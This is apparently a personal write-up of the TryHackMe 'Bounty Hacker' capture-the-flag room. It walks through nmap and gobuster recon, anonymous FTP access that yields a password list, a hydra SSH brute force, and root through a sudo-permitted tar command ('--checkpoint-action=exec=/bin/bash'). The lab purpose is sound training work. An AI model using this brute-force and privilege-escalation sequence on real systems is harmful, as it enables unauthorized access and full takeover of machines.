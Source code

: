# Bounty Hacker

Notes on the TryHackMe CTF. 

## Recon

### nmap

`$ nmap -A TARGET_IP`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.133.183
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:38:9A:90:A9:1B (Unknown)
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Linux 2.6.32 (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%), Linux 3.8 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms ip-10-10-252-236.eu-west-1.compute.internal (TARGET_IP)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.31 seconds
```

### gobuster
`$ gobuster dir -u http://TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/images (Status: 301)
/server-status (Status: 403)
```

### website
```
 Crew Picture
Spike:"..Oh look you're finally up. It's about time, 3 more minutes and you were going out with the garbage."

Jet:"Now you told Spike here you can hack any computer in the system. We'd let Ed do it but we need her working on something else and you were getting real bold in that bar back there. Now take a look around and see if you can get that root the system and don't ask any questions you know you don't need the answer to, if you're lucky I'll even make you some bell peppers and beef."

Ed:"I'm Ed. You should have access to the device they are talking about on your computer. Edward and Ein will be on the main deck if you need us!"

Faye:"..hmph.."
```
Nothing interesting in page source. Strings on the image doesn't give anything obvious besides that it was made with Photoshop. 

## FTP

`locks.txt` which looks like a password list. 

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

`task.txt`

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Gaining access

### hydra
We have a list of passwords, a possible username `lin` and an `ssh` service running.
`$ hydra -l lin -P locks.txt ssh://TARGET_IP`

```
22][ssh] host: TARGET_IP   login: lin   password: RedDr4gonSynd1cat3
```
Now we can login using ssh as `lin`.

## Escalation

`$ sudo -l`
```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

https://gtfobins.github.io/gtfobins/tar/

`$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

And just like that we are root. 
